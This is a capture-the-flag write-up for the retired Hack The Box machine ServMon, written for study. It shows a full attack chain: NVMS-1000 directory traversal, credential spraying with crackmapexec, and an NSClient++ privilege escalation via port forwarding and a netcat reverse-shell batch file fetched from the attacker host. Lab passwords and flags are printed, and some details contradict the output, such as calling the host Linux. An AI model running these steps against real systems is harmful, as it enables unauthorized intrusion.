









# ServMon by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| ServMon  | 10.10.10.184  | Windows            | 20       | 2.2      | 11682       | 7006        | Yes       | 2020-04-11     | 2020-06-20     | No         | 240          |

## Summary
1. Scan ports -> 21,22,80,8443
2. Enumerate port 21 -> `C:\Users\Nathan\Desktop\Passwords.txt`
3. Enmerate port 80 -> `Directory traversal` on `nvms-1000`
4. Read `C:\Users\Nathan\Desktop\Passwords.txt` -> `Nadine:L1k3B1gBut7s@W0rk`
5. Connect to `Nadine@10.10.10.184` via ssh -> Shell as Nadine (`user flag`)
6. Enumerate port 8443 -> `NSClient++` vulnerable to privesc
7. Read password from `C:\Program Files\NSClient++\nsclient.ini` -> Web login with `ew2x6SsGTxjRwXOT`
8. Forward port 8443 on victims machine -> Bypass login `localhost restriction`
9. Activate `External Scripts` module -> `LFI` of `reverse shell`
10. Upload `nc.exe` based revshell and configure new external script -> RCE as root
11. `Reboot` the machine from 8443 -> Root shell as NT-Authority (`system flag`)

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.184
PING 10.10.10.184 (10.10.10.184) 56(84) bytes of data.
64 bytes from 10.10.10.184: icmp_seq=1 ttl=127 time=42.9 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.184 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.245 

	[*] Open ports:  21,22,80 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 -sVC -n 10.10.10.184 -oN Enum/targeted
PORT   STATE SERVICE VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn\'t have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 21 | ftp | Microsoft ftpd | - |
| 22 | ssh | OpenSSH | Windows_8.0 |
| 80 | http | - | - |
| 135 | msrpc | Microsoft Windows RPC | - |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn | possibly smb |
| 445 | microsoft-ds | microsoft-ds? | possibly smb |
| 5666 | tcpwrapped | tcpwrapped | - |
| 6063 | tcpwrapped | tcpwrapped | - |
| 6699 | tcpwrapped | tcpwrapped | - |
| 8443 | ssl/https-alt | ssl/https-alt | https page |


### Port 21 enumeration
As ftp allows anonymous connection, we can access to the ftp server and check which files are accessible:
```shell
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:r3van): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: # a
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd Nathan
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> cd ..
250 CWD command successful.
ftp> cd Nadine
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  168 Confidential.txt
226 Transfer complete.
```
Content of `Notes to do.txt`:
```shell
❯ cat Results/Notes\ to\ do.txt
───────┬──────────────────────────────────────────────────────────────────────────
       │ File: Results/Notes to do.txt
       │ Size: 182 B
───────┼──────────────────────────────────────────────────────────────────────────
   1   │ 1) Change the password for NVMS - Complete
   2   │ 2) Lock down the NSClient Access - Complete
   3   │ 3) Upload the passwords
   4   │ 4) Remove public access to NVMS
   5   │ 5) Place the secret files in SharePoint
───────┴───────────────────────────────────────────────────────────────────────────
```
As we can see, `public access` to `NVMS` is allowed.
Content of `Confidential.txt`:
```shell
❯ cat Results/Confidential.txt
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Results/Confidential.txt
       │ Size: 168 B
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Nathan,
   2   │ 
   3   │ I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
   4   │ 
   5   │ Regards
   6   │ 
   7   │ Nadine
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
So there is a file `C:\Users\Nathan\Desktop\Passwords.txt` that contains sensible information.

### Port 80 enumeration
#### Technology scan
```shell
❯ whatweb http://10.10.10.184/Pages/login.htm
http://10.10.10.184/Pages/login.htm [200 OK] Country[RESERVED][ZZ], IP[10.10.10.184], JQuery[1.7.2], PasswordField[password], Script[text/javascript], Title[NVMS-1000], UncommonHeaders[authinfo], X-UA-Compatible[IE=8]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| JQuery | 1.7.2 | - |

#### Web content fuzzing
We start fuzzing the folders and files without extension:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 --hh 118 -Z "http://10.10.10.184/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.184/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000001757:   200        3 L      42 W       1140 Ch     "favicon.ico"     
000002190:   200        12 L     22 W       338 Ch      "index.htm"
```

We didn't find any interesting content, and as we don't know the domain name, we cannot perform any subdomain enumeration.

#### Manual enumeration
If we access the main page, we can see this login page:

This is the second mention to `nvms-1000`, so let's enmerate its vulnerabilities:
```shell
❯ searchsploit nvms 1000
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                  | hardware/webapps/47774.txt
TVT NVMS 1000 - Directory Traversal              | hardware/webapps/48311.py
------------------------------------------------- ---------------------------------
```
We discover a `Directory Traversal` vulnerability, let's read the `.txt` and try to exploit it manually:
```s
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan T<C3><BC>rle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
We can test if te vulnerability applies using `curl`:
```shell
❯ curl "http://10.10.10.184/../../../../../../../../../../../../windows/win.ini"
```
This test isn't working because the page is filtering the `../` strings through the normal get requests. But if we try the traversal with `burpsuite`:

And it worked! This means that the input sanitization is taking place in frontend and not backend, this is a risk as we can intercept packages with proxies like burpsuite.

## Path traversal to user shell
Now that we can read files in the system, we can try to read the previously enumerated file `C:\Users\Nathan\Destkop\Passwords.txt`:

We store the passwords in the file `Results/Passwords.txt` and the usernames `Nadine` and `Natan` in `Results/Usernames.txt`:
```shell
❯ echo -e "Nadine\nNathan" > Results/Usernames.txt
❯ echo -e "1nsp3ctTh3Way2Mars\!\nTh3r34r3To0M4nyTrait0r5\!\nB3WithM30r4ga1n5tMe\nL1k3B1gBut7s@W0rk\n0nly7h3y0unGWi11F0l10w\nIfH3s4b0Utg0t0H1sH0me\nGr4etN3w5w17hMySk1Pa5$" > Results/Passwords.txt
❯ cat Results/Usernames.txt
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/Usernames.txt
       │ Size: 14 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ Nadine
   2   │ Nathan
───────┴───────────────────────────────────────────────────────────────────────────
❯ cat Results/Passwords.txt
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/Passwords.txt
       │ Size: 151 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ 1nsp3ctTh3Way2Mars!
   2   │ Th3r34r3To0M4nyTrait0r5!
   3   │ B3WithM30r4ga1n5tMe
   4   │ L1k3B1gBut7s@W0rk
   5   │ 0nly7h3y0unGWi11F0l10w
   6   │ IfH3s4b0Utg0t0H1sH0me
   7   │ Gr4etN3w5w17hMySk1Pa5$
───────┴───────────────────────────────────────────────────────────────────────────
```
Now, we can use `crackmapexec` to check all these credentials to test `smb` and `ssh` logins:
```shell
❯ crackmapexec smb 10.10.10.184 -u Results/Usernames.txt -p Results/Passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk 
❯ crackmapexec ssh 10.10.10.184 -u Results/Usernames.txt -p Results/Passwords.txt
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [+] Nadine:L1k3B1gBut7s@W0rk 
❯ echo "Nadine:L1k3B1gBut7s@W0rk" > Results/credentials.txt
```
We observe that credentials `Nadine:L1k3B1gBut7s@W0rk` are valid for both smb and ssh. We can test smb access with `smbmap`:
```shell
❯ smbmap -H 10.10.10.184 -u Nadine -p "L1k3B1gBut7s@W0rk" --no-banner
                                                                                                    
[+] IP: 10.10.10.184:445	Name: 10.10.10.184        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```
We don't have access to the any Disk so there is nothing useful here. If we try connecting ssh:
```shell
❯ ssh Nadine@10.10.10.184
Nadine@10.10.10.184\'s password: # L1k3B1gBut7s@W0rk
nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine\Desktop

02/28/2022  08:05 PM    <DIR>          .
02/28/2022  08:05 PM    <DIR>          ..
06/16/2022  02:15 PM                34 user.txt    
               1 File(s)             34 bytes      
               2 Dir(s)   6,122,487,808 bytes free 
```
We obtained a user shell as `Nadine`.

## Privilege escalation
After looking for privilege escalation vectors in the target, we didn't finde anything useful in the filesystem. Remember the `https` server found on port 8443.
### Port 8443 enumeration
#### Technology scan
```shell
❯ whatweb https://10.10.10.184:8443
https://10.10.10.184:8443 [302 Found] Country[RESERVED][ZZ], IP[10.10.10.184], RedirectLocation[/index.html]
https://10.10.10.184:8443/index.html [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.10.10.184], Script[text/javascript], Title[NSClient++], X-UA-Compatible[IE=edge]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Bootstrap | - | - |
| HTML5 | - | - |
| NSClient++ | - | - |

#### Web content fuzzing
First, we will fuzz folders and pages without extension:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 --hh 118 "https://10.10.10.184:8443/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.184:8443/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000657:   403        0 L      4 W        20 Ch       "api"             
000002191:   200        0 L      403 W      5581 Ch     "index.html"  
```
Then, we can enumerate `.txt` files:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 --hh 118 "https://10.10.10.184:8443/FUZZ.txt"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.184:8443/FUZZ.txt
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================
```

#### Manual enumeration
If we open the main page, we see:

So we can enumerate `NSClient++` vulnerabilities:
```shell
❯ searchsploit NSClient
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code  | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation       | windows/local/46802.txt
------------------------------------------------- ---------------------------------
```
If we read the `privesc` exploit, we can perform the following steps:
```powershell
nadine@SERVMON C:\Users\Nadine\Desktop>more "C:\Program Files\NSClient++\nsclient.ini"
# If you want to fill this file with all available options run the following com
mand:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help
 
 
; in flight - TODO
[/settings/default]
 
; Undocumented key
password = ew2x6SsGTxjRwXOT
 
; Undocumented key
allowed hosts = 127.0.0.1
```
We found the admin password `ew2x6SsGTxjRwXOT` for NSClient ++. Now we can try to log in as the NSClient admin:

And we obtain a `403 You are not allowed`. 

### Port 8443 forwarding
Look at the `allowed hosts` section of `C:\Program Files\NSClient++\nsclient.ini`:
```s
; Undocumented key
allowed hosts = 127.0.0.1
```
This configuration means that only localhost connections are allowed to log in, so we will need to apply port forwarding:
```shell
❯ ssh Nadine@10.10.10.184 8443:127.0.0.1:8443
Nadine@10.10.10.184\'s password: # L1k3B1gBut7s@W0rk
nadine@SERVMON C:\Users\Nadine\Desktop>
```
And now, we can access `https://127.0.0.1:8443/index.html#/` and try to log in:

We successfully logged in as `NSClient++` administrator. Now, we need to allow two modules, `CheckExternalScripts`:

And `Scheduler`:


The next step is to upload `nc.exe` and `reverse.bat` to the target:
```shell
# Attacker Machine
❯ nvim Exploits/reverse.bat
❯ cat Exploits/reverse.bat
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/reverse.bat
       │ Size: 53 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ @echo off
   2   │ C:\temp\nc.exe 10.10.14.17 3333 -e cmd.exe
───────┴───────────────────────────────────────────────────────────────────────────
❯ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
# Victims machine
nadine@SERVMON C:\temp>curl http://10.10.14.17:4444/nc.exe --output nc.exe
nadine@SERVMON C:\temp>curl http://10.10.14.17:4444/Exploits/reverse.bat --output reverse.bat
```

Next, we need to add the script to the external scripts:

After that, we can save the configuration:

And restart the machine:

Obtaining this response:


After all those steps, when the restart is done, we can obtain a reverse shell navigating to any other page, for example `/settings`:
```shell
❯ nc -nlvp 3333
Connection from 10.10.10.184:49847
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```
We obtained a shell as administrator on `ServMon`.

## CVE
No CVEs were consulted for this machine.

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | c799765bbeb7cfc8c1b71e72ea1b17ff | No | 16-06-2022|
| Root | 56b6e43fd5072508ebd72b769490a4e4 | No | 17-06-2022|

## References
- https://www.eclipsecctv.com/pro-series-software.html
- https://www.exploit-db.com/exploits/48311
- https://exchange.nagios.org/directory/Addons/Monitoring-Agents/NSClient++/details
- https://www.exploit-db.com/exploits/46802